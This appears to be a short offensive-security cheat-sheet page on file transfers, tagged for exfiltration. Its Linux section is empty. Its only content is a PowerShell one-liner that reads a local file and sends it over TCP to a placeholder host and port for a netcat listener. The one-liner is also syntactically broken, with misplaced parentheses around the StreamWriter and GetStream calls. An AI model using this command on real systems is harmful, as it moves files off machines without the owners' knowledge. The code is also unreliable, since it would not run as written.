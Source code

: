 ```yaml
---
layout: default
title: File Transfers
tags:
    - download
    - exfiltration
    - scp
    - smb
    - tftp
    - upload
---
```

# File Transfers
## Linux

## Windows
Powershell Send File to Netcat
```shell
$h="<host>";$p="<port>";$data=Get-Content -Path "<file>";$tcp=New-Object System.Net.Sockets.TcpClient($h,$p);$w=New-Object System.IO.StreamWriter($tcp).GetStream());foreach($l in $data){$w.WriteLine($l)};$w.Flush();$w.Close();$tcp.Close();
```